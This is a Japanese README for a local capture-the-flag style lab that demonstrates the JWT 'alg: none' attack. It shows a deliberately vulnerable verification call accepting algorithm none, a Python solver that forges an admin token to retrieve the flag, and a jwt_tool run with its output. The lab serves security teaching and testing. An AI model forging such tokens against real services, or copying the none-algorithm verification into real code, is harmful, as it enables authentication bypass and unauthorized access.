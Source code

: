 # Trial1
アルゴリズムをnoneに変更する攻撃を検証するための環境。

[APIのソースコード](./index.js)

以下のエンドポイントが存在。
- サインインエンドポイント（`/signin`）
  - `username`と`password`を受け取り、該当のユーザーが存在するか確認。
  - `username`と`password`が正しければJWTを発行して返送する。
- flag取得エンドポイント（`/flag`）
  - JWTを受け取り、検証する。
  - 検証が成功し、`username`が`admin`の場合flagを返す。

## 解説
サインインエンドポイント（`/signin`）では認証が成功すると、アルゴリズムがHS256のJWTが発行される。

```js
signed = jwt.sign({
      username: username,
},
      secret, 
      { algorithm: "HS256", expiresIn: "1h" } 
);
```

flag取得エンドポイント（`/flag`）のJWT検証部分に脆弱性が存在。

検証時のアルゴリズムがnoneに指定されているため、アルゴリズムがnoneのJWTが受け入れられる状態になっている。

```js
verified = jwt.verify(
      req.header("Authorization"),
      "",
      { algorithms: ["none"] }
);
```

JWTのペイロードにおける`username`が`admin`の場合にflagが取得できる。

```js
if (verified.username === "admin") {
      res.send(`Congratulations! Here"s your flag: ${FLAG}`);
      return;
}
```

つまり、ペイロードにおける`username`が`admin`かつアルゴリズムがnoneのJWTを作成して`/flag`に送信することでflagが取得できる。

以下の[solver](./solver.py)を実行することで、攻撃を検証可能。

```py
import requests
import json
import jwt
#pyjwt==2.7.0

HOST = "http://localhost:5502"

data = {
    "username": "guest",
    "password": "guest"
}

# /signin
signin_response = requests.post(f"{HOST}/signin", json=data)
print("/signin:", signin_response.text)
encoded_jwt = signin_response.headers['Authorization']
print("encoded jwt:", encoded_jwt)
print("header:", jwt.get_unverified_header(encoded_jwt))

# alg: noneなJWTを作成
none_jwt = jwt.encode({"username": "admin"}, key="", algorithm="none")
print("none jwt:", none_jwt)
print("header:", jwt.get_unverified_header(none_jwt))

# /flag
flag_response = requests.get(f"{HOST}/flag", headers={"Authorization": none_jwt})
print("/flag", flag_response.text)
```

```bash
$ python3 solver.py
/signin: {"message":"ok"}
encoded jwt: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaWF0IjoxNjkzNjY2MzI2LCJleHAiOjE2OTM2Njk5MjZ9.SVX5a3UOG45r-t2mfFHEAx7zbqkqasQBxHuTUESIuis
header: {'alg': 'HS256', 'typ': 'JWT'}
none jwt: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
header: {'alg': 'none', 'typ': 'JWT'}
/flag Congratulations! Here"s your flag: flag{this_is_trial1_flag}
```

## 補足
jwt_toolを用いてもこの攻撃を検証することが可能。

```bash
$ python3 jwt_tool.py -t http://localhost:5502/flag -rh "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaWF0IjoxNjkwNjg0MjU0LCJleHAiOjE2OTA2ODc4NTR9.fEPwTraD9K4FN2QebyNbQxBWjtsW-aGQ6wsF4No6Lhw" -X a -I -pc username -pv admin

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaWF0IjoxNjkwNjg0MjU0LCJleHAiOjE2OTA2ODc4NTR9.fEPwTraD9K4FN2QebyNbQxBWjtsW-aGQ6wsF4No6Lhw

jwttool_0d87ed4ae607bc4ee00389bded132591 Exploit: "alg":"none" Response Code: 200, 60 bytes
jwttool_0a17f832eb313371de079a55972ddd91 Exploit: "alg":"None" Response Code: 401, 25 bytes
jwttool_84d0dd418379b257dc1cc9e01274c062 Exploit: "alg":"NONE" Response Code: 401, 25 bytes
jwttool_528b9e160b919e9581306842b025aad7 Exploit: "alg":"nOnE" Response Code: 401, 25 bytes
```